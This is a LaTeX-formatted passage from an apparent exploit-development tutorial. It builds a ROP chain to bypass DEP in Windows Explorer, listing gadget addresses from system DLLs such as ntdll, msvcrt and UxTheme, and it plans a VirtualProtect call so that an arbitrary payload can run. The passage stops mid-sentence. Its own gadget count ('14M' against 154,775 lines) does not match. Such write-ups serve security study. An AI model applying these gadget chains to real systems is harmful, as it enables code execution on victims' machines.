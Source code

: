 \documentclass[12pt, titlepage]{article}
\begin{document}
Ok, time to use the beloved \emph{pvefindaddr} to find our rop-gadget set:
\lstset{caption=Find all the ROP gadgets in all modules loaded by the Windows' explorer}
\begin{lstlisting}
    !pvefindaddr rop
    [..The ideal time to have a nice cup of coffee ..]

    D:\TODO\2490606>wc -l rop.txt
    154775 rop.txt
\end{lstlisting}

Quite unbelievable thing that we have around \textbf{14M} of ROP gadgets. So the first step is to sort them, and to select some of them. Those I have selected are here, it is kind of toolbox:
\lstset{caption=gadgets ROP-box}
\begin{lstlisting}
Save ESP address:
    5B099EE7 :  # PUSH ESP # MOV EAX,EDX # POP EDI # RETN 	[Module : UxTheme.dll]  **
    6FF25365 :  # PUSH EDI # POP EAX # RETN 	[Module : NETAPI32.dll]  **

Jump over the arguments:
    77C190C3 :  # ADD ESP,18 # POP EBP # RETN 	[Module : msvcrt.dll]  **

Play with registers:
    77743A33 :  # INC EDI # RETN 	[Module : SHDOCVW.dll]  **  - [Ascii printable]
    77393CC0 :  # DEC EDI # RETN 	[Module : comctl32.dll]  **

    774D0391 :  # ADD EAX,23C # RETN 	[Module : ole32.dll]  **


Write a dword:
    77A2C665 :  # MOV DWORD PTR DS:[EDI],EAX # XOR EAX,EAX # INC EAX # POP ESI # POP EBX # POP EBP # RETN 8 	[Module : CRYPT32.dll]  **

Pivot the stack:
    5B0B5593 :  # XCHG EAX,ESP # RETN 	[Module : UxTheme.dll]  **

EAX <- EDI:
    7C985932 :  # MOV ECX,EDI # INC DWORD PTR SS:[EBP+3B367CC0] # RETN 	[Module : ntdll.dll]  **
    0101FA4F :  # MOV EAX,ECX # RETN 	[Module : Explorer.EXE]  **
\end{lstlisting}

Ok we have all that what we need to break the DEP and to execute any payload so here we go :). Keep in mind that we want to do that:
\lstset{caption=VirtualProtect call}
\begin{lstlisting}
VirtualProtect(addrStack, 0x100, 0x40, addrMemoryWritable);
\end{lstlisting}

A writable memory is easy to find, you just have to look at the writable section and to choose a constant address: 0x010462E0. We can even check the properties of the page with \emph{pvefindaddr}:
\end{document}
